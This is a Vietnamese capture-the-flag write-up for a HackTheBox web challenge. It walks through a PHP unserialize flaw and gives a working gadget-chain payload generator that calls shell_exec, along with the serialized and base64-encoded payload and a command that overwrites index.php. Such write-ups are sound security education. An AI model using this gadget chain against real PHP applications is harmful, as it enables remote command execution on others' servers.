








## Thu thâp
Đăng ký tài khoản để truy cập vào trang web 



Giải mã base64 kết quả sẽ là một chuỗi văn bản có dạng PHP serialization (mã hóa đối tượng của PHP)

## Đọc source code
Flag nằm trong tệp có tên được tạo ngẫu nhiên*_flag.txxt 

Dữ liệu gửi theo phương thức POST là data không được lọc trước khi được lưu vào CSDL 
Tệp source code có thư mục Model định nghĩa lớp PHP cho các đối tượng Pizza , Spaghetti , IceCream . Mỗi đối tượng định nghĩa một hàm 
Pizza __destruct() ;
Spaghetti _get();
IceCream __invoke();
Mỗi hàm này đều thuộc về một tập hợp các hàm lớp đặc biệt gọi là phương thức Magic (Magic Methods)
__destruct() được gọi khi đối tượng bị xóa khỏi bộ nhớ 
__get() được gọi khi 1 tham số không tồn tại của đối tượng đang cố gắng được gọi
__invoke() được gọi khi người dùng cố gắng thực thi đối tượng như 1 phương thức .
Từ index.php rằng dữ liệu trong yêu cầu bài đăng chỉ đơn giản là mã hóa base64 của đối tượng được chọn như tuần tự hóa , được khởi tạo bằng NULL cho mọi tham số .
Hai điều quan trọng cần lưu :
+ order.php
+ Helpers/ArrayHelpers.php
Đối với order.php 
 
Lấy dữ liệu gửi qua yêu cầu , giải mã dữ liệu đó rồi hủy tuần tự hóa dữ liệu đó , do đó tạo ra đối tượng nếu tìm thấy dữ liệu khớp chính xác .
Thay vào đó , phương thức sau chỉ mở rộng lớp ArrayIterator và định nghĩa một hành vi mới cho phương thức current() , trong đó một hàm gọi lại được gọi , thiết lập giá trị hiện tại thu được không qua quá trình lặp làm tham số .
```bash
<?php
namespace Helpers{
    use \ArrayIterator;
	class ArrayHelpers extends ArrayIterator
	{
		public $callback;

		public function current()
		{
			$value = parent::current();
			$debug = call_user_func($this->callback, $value);
			var_dump($debug);
			return $value;
		}
	}
}
```

 
```bash
<?php
class IceCream
{
  public $flavors;
  public $topping;

  public function __invoke()
  {
    foreach ($this->flavors as $flavor) {
      echo $flavor;
    }
  }
}

class Pizza
{
  public $price;
  public $cheese;
  public $size;

  public function __destruct()
  {
    echo $this->size->what;
  }
}

class Spaghetti
{
  public $sauce;
  public $noodles;
  public $portion;

  public function __get($tomato)
  {
      ($this->sauce)();
  }
}
```
Ý tưởng là khai thác call_user_func để thực thi shell_exec để lấy cờ, nhưng làm sao chúng ta có thể đến đó? Chúng ta biết rằng trong order.php, chúng ta hủy tuần tự hóa đối tượng quảng cáo lấy từ yêu cầu đăng, đối tượng này sẽ bị hủy ở cuối tập lệnh. Đến đây, có lẽ bạn đã đoán ra rồi, chúng ta cần phải đặt một chiếc Pizza!
Bây giờ chúng ta biết rằng bằng cách gửi yêu cầu bài đăng yêu cầu đối tượng Pizza, phương thức __destroy() sẽ được gọi, phương thức này sẽ chỉ thực hiện echo $this->size->what . Mã giả định rằng biến size là một đối tượng có tham số name what . Sau đó, chúng ta nhớ rằng phương thức __get() sẽ được gọi khi tham chiếu đến một tham số không tồn tại của lớp. Ý tưởng sau đó là đặt biến size thành một thể hiện của Spaghetti, do đó cho phép phương thức __get() chạy. Theo cùng cách tiếp cận, nếu chúng ta đặt biến sauce của lớp Spaghetti thành một thể hiện của IceCream, phương thức __invoke() sẽ được gọi, vì phương thức __get() sẽ cố gắng gọi thể hiện của IceCream dưới dạng một hàm. Cuối cùng, ý tưởng là đặt flavor thành một thể hiện của ArrayHelpers, đặt hàm gọi lại thành shell_exec , đồng thời cung cấp cho hàm tạo của nó một mảng chứa một chuỗi sẽ là lệnh của chúng ta để thực thi. Vì chúng ta không biết tên cờ, chúng ta có thể chỉ cần sử dụng mẹo này:
```bash
cat /*flag* > ./index.php
```
Nếu mọi thứ hoạt động tốt, khi mở trang chủ của ứng dụng web, chúng ta sẽ nhận được cờ. Để nhanh chóng nhận được tải trọng, tôi đã tạo một tập lệnh php:
```bash
<?php
class ArrayHelpers extends ArrayIterator
{
	public $callback = "shell_exec";
}

class Pizza
{
	public $price;
	public $cheese;
	public $size;

}
	
class Spaghetti
{
    public $sauce;
    public $noodles;
    public $portion;
    
}

class IceCream
{
	public $flavors;
	public $topping;
}


$cmd = array(
	0 => "cat /*flag* > ./index.php"
	);

$pizza = new Pizza();
$spaghetti = new Spaghetti();
$icecream = new IceCream();
$icecream->flavors = new ArrayHelpers($cmd);
$spaghetti->sauce = $icecream;
$pizza->size = $spaghetti;

echo base64_encode(serialize($pizza));
```
## Khai thác 
Một lần nữa sử dụng burpsuite, chúng ta có thể sửa đổi dữ liệu yêu cầu đăng và kiểm tra tải trọng của mình, nhưng thật không may là không hiệu quả. Vâng, không hoàn toàn. Vấn đề là unserialize không thể tìm thấy lớp tương ứng cho ArrayHelpers, điều này xảy ra vì nó được gói bên trong không gian tên "Helpers".
Kịch bản làm việc cuối cùng như sau:
```bash
<?php
class ArrayHelpers extends ArrayIterator
{
	public $callback = "shell_exec";
}

class Pizza
{
	public $price;
	public $cheese;
	public $size;

}
	
class Spaghetti
{
    public $sauce;
    public $noodles;
    public $portion;
    
}

class IceCream
{
	public $flavors;
	public $topping;
}


$cmd = array(
	0 => "cat /*flag* > ./index.php"
	);

$pizza = new Pizza();
$spaghetti = new Spaghetti();
$icecream = new IceCream();
$icecream->flavors = new ArrayHelpers($cmd);
$spaghetti->sauce = $icecream;
$pizza->size = $spaghetti;

$my_payload = serialize($pizza);
$my_payload = str_replace('12:"ArrayHelpers"', '21:"\Helpers\ArrayHelpers"', $my_payload);
echo base64_encode($my_payload);
```

Tải trọng 
```bash
O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";O:9:"Spaghetti":3:{s:5:"sauce";O:8:"IceCream":2:{s:7:"flavors";O:21:"\Helpers\ArrayHelpers":4:{i:0;i:0;i:1;a:1:{i:0;s:25:"cat /*flag* > ./index.php";}i:2;a:1:{s:8:"callback";s:10:"shell_exec";}i:3;N;}s:7:"topping";N;}s:7:"noodles";N;s:7:"portion";N;}}
```

Tải trọng mã hóa base64:

```bash
Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO086OToiU3BhZ2hldHRpIjozOntzOjU6InNhdWNlIjtPOjg6IkljZUNyZWFtIjoyOntzOjc6ImZsYXZvcnMiO086MjE6IlxIZWxwZXJzXEFycmF5SGVscGVycyI6NDp7aTow O2k6MDtpOjE7YToxOntpOjA7czoyNToiY2F0IC8qZmxhZyogPiAuL2luZGV4LnBocCI7fWk6MjthOjE6e3M6ODoiY2FsbGJhY2siO3M6MTA6InNoZWxsX2V4ZWMiO31pOjM7Tjt9czo3OiJ0b3BwaW5nIjtOO31zOjc6Im5vb2RsZXMiO047czo3OiJwb3J0aW9uIjtOO319
```




https://www.hackthebox.com/achievement/challenge/2106021/770
